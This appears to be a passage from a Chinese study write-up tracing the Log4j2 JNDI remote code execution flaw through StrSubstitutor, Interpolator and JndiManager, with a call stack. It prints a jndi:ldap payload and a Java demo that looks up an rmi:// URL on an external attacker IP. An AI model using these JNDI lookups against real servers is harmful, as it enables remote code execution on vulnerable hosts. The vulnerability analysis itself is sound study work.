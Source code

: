 其实就是递归处理了，这也是之后会提到到类似`${${}}`这样的写法，因为它是递归处理的。

经过一些的处理后进入`String varValue = resolveVariable(event, varName, buf, startPos, endPos);`：



![image-20211210124345632](Log4j2-rce-学习.assets/image-20211210124345632.png)

而`lookup`方法的作用就是解析指定的变量。 此实现将尝试从给定的变量名称中提取变量前缀（第一个冒号 (':') 用作前缀分隔符）。 然后它将带有前缀的变量名称传递给为此前缀注册的查找对象。 如果找不到前缀或关联的查找对象无法解析此变量，则将使用默认查找对象。



分割出前缀为`jndi`，name是`ldap://121.5.169.223:1389/6gi89k`。再根据前缀得到lookup：

![image-20211210124747863](Log4j2-rce-学习.assets/image-20211210124747863.png)

![image-20220304123730768](Log4j2-rce-学习.assets/image-20220304123730768.png)

然后调用相应的`lookup`方法：

```java
value = event == null ? lookup.lookup(name) : lookup.lookup(event, name);
```

最后在这里调用：

![image-20211210125404902](Log4j2-rce-学习.assets/image-20211210125404902.png)

`this.context`是`InitialContext`，调用lookup方法，name就是我们的payload，跟之前学习jndi注入时候的demo是一样的了：

```java
package com.feng.jndi;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.Name;
import java.rmi.Naming;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "rmi://121.5.169.223:39654/feng";
        Context context = new InitialContext();
        context.lookup(url);
    }
}
```

实现jndi注入。



调用栈：

```
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
```